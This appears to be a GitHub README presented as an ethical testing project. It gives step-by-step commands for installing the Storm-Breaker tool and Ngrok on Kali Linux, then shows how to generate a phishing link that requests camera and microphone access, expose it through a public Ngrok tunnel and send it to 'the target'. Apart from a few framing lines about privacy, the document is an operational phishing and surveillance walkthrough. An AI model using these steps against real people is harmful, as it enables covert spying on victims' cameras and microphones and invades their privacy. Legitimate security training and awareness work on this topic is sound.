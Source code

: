 # Gaining-Camera-and-Microphone-Access

## Introduction
This project explores the process of gaining access to a device's camera and microphone using tools like Storm-Breaker and Ngrok. It demonstrates the setup, configuration, and ethical implications of leveraging these tools in a controlled environment for testing purposes. The focus is on understanding the technology and implementing secure practices to protect user privacy.

## Objective
- To understand how tools like Storm-Breaker and Ngrok function.
- To demonstrate the process of gaining camera and microphone access ethically in a secure and controlled environment.
- To study the significance of user permissions and privacy concerns in the context of multimedia access.

## Tools Used
1. **Storm-Breaker:** A tool used for simulating the process of accessing cameras and microphones via social engineering techniques.
2. **Ngrok:** A tunneling tool that enables the creation of secure public URLs for local servers, allowing remote access and interaction.


## Process and Implementation

1. **Installation of Storm-Breaker on Kali Linux**
- Open the terminal on Kali Linux.
- Clone the Storm-Breaker repository from GitHub:
```
git clone https://github.com/ultrasecurity/Storm-Breaker.git
```
![image](https://github.com/user-attachments/assets/4aab1944-f499-417c-a5bb-53a068db83de)

- Navigate to the directory:
```
cd Storm-Breaker
```
![image](https://github.com/user-attachments/assets/056e8426-d870-41b8-b305-4af1c602fbf2)


- Install the required dependencies:
```
sudo python3 -m pip install -r requirements.txt
sudo bash install.sh
```

![image](https://github.com/user-attachments/assets/f1907a2d-00bb-43c3-8637-95afc3fd2167)

- Launch Storm-Breaker:
```
sudo python3 st.py
```
![image](https://github.com/user-attachments/assets/8b093be3-053a-4a9e-915a-800dacf7e47f)



2. **Signing in on Ngrok**

- Visit [Ngrok's official website](https://ngrok.com/) and create an account.
![image](https://github.com/user-attachments/assets/12dff1af-6901-4b04-b7d7-cfe66b207e8a)

- Download and install the Ngrok package on Kali Linux.
```
curl -sSL https://ngrok-agent.s3.amazonaws.com/ngrok.asc \
| sudo tee /etc/apt/trusted.gpg.d/ngrok.asc >/dev/null \
&& echo "deb https://ngrok-agent.s3.amazonaws.com buster main" \
| sudo tee /etc/apt/sources.list.d/ngrok.list \
&& sudo apt update \
&& sudo apt install ngrok
```
![image](https://github.com/user-attachments/assets/72d8e0a0-dbd6-40dd-b8d0-43c608e8b055)

![image](https://github.com/user-attachments/assets/f6bdc18a-8a02-44d2-8b55-2209fd4c6e42)

- Authenticate Ngrok using the provided token:
```
ngrok config add-authtoken <your_auth_token>
```
replace <your_auth_token> with the token number provided in ngrok

![image](https://github.com/user-attachments/assets/8783f5e4-6c82-4db4-af3d-d005e41c35dd)


3. **Creating and Sharing Links**
- Use Storm-Breaker to generate a phishing link to request camera and microphone access.
- Tunnel the local server hosting the phishing link using Ngrok:

```
ngrok http 2525
```
![image](https://github.com/user-attachments/assets/28142d07-a931-461e-9f9f-9a842d04a8fb)

- Share the Ngrok-generated public URL with the target for interaction.

